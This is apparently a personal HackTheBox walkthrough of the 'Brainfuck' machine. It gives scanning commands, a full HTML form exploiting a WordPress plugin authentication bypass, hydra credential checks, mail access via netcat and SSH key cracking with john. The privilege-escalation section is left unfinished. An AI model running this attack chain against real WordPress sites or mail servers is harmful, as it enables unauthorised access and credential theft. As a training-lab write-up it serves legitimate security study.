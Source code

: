 ## Initial Exploit - 
***
Nmap finds the **www.brainfuck.htb** and **sup3rs3cr3t.brainfuck.htb** domains:  
> nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN "/home/kali/hackthebox/brainfuck/results/10.129.1.1/scans/_full_tcp_nmap.txt" -oX "/home/kali/hackthebox/brainfuck/results/10.129.1.1/scans/xml/_full_tcp_nmap.xml" 10.129.1.1

![](/home/kali/Walkthroughs/HackTheBox/brianfuck/images/nmap.png)

Add them to the hosts file:  
> sudo vi /etc/hosts

![](/home/kali/Walkthroughs/HackTheBox/brianfuck/images/hosts.png) 

This page is running WordPress. Scan it with wpscan:  
> wpscan --url https://brainfuck.htb:443/ --enumerate ap,at,cb,dbe --plugins-detection aggressive --disable-tls-ch
ecks | tee wpscan443.txt

It finds the wp-support-plus-responsive-ticket-system plugin v7.1.3 running:  
![](/home/kali/Walkthroughs/HackTheBox/brianfuck/images/wpscan.png)

WPScan's website has an exploit description [here](https://wpscan.com/vulnerability/b1808005-0809-4ac7-92c7-1f65e410ac4f). Copy the HTML code into a file:  
```
<form method="post" action="https://brainfuck.com/wp-admin/admin-ajax.php">

	Username: <input type="text" name="username" value="administrator">

	<input type="hidden" name="email" value="sth">

	<input type="hidden" name="action" value="loginGuestFacebook">

	<input type="submit" value="Login">

</form> 
```

Open the file with Firefox:  
> firefox ticket.html

![](/home/kali/Walkthroughs/HackTheBox/brianfuck/images/exp.png)

Click the Login button. Revisit the page at **https://brainfuck.htb/** to confirm you're logged in as admin:  
![](/home/kali/Walkthroughs/HackTheBox/brianfuck/images/loggedin.png)


Navigate to **https://brainfuck.htb/wp-admin/options-general.php?page=swpsmtp_settings** and view the page source to reveal the password:  
![](/home/kali/Walkthroughs/HackTheBox/brianfuck/images/smtp_pass.png)

Hydra finds the credentials are valid for pop3 and imap:  

> hydra -L users.txt -p kHGuERB29DNiNE 10.129.1.1 imap
> 
> hydra -L users.txt -p kHGuERB29DNiNE 10.129.1.1 pop3

![](/home/kali/Walkthroughs/HackTheBox/brianfuck/images/users.png)

![](/home/kali/Walkthroughs/HackTheBox/brianfuck/images/hydra.png)

Log into POP3 with the credentials **orestis@brainfuck.htb:kHGuERB29DNiNE**:  
> nc 10.129.1.1 110

> user orestis

> pass kHGuERB29DNiNE

Read the email containing another set of credentials:  
> retr 2

![](/home/kali/Walkthroughs/HackTheBox/brianfuck/images/pop3.png)

Log in at **https://sup3rs3cr3t.brainfuck.htb** using the credentials **orestis:kIEnnfEKJ#9UmdO**. Navigate to **https://sup3rs3cr3t.brainfuck.htb/d/3-key** to view an encrypted chat. Use Cyber Chef to find the key used to encrypt the chat:  
![](/home/kali/Walkthroughs/HackTheBox/brianfuck/images/cyberchef.png)


The output is **fuckmybrain** repeated. Decode the URL using that key:  
![](/home/kali/Walkthroughs/HackTheBox/brianfuck/images/cyberchef2.png)

Navigate to **https://10.129.84.35/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa** and download the SSH key. The SSH key is encrypted. Crack it with john:  
> ssh2john id_rsa > id_rsa.hash

> john --wordlist=/usr/share/wordlist/rockyou.txt id_rsa.hash

![](/home/kali/Walkthroughs/HackTheBox/brianfuck/images/john.png)

Log into SSH using the private key and the passphrase **3poulakia!**:  
> ssh orestis@10.129.84.35 -i id_rsa

<div style="page-break-after: always;"></div>

## Privilege Escalation - 
***
Annoying CTF box  do it later








<div style="page-break-after: always;"></div>

## Proof - 
***
### User:

![](/home/kali/Walkthroughs/HackTheBox/brianfuck/images/user.png)

### Root:

root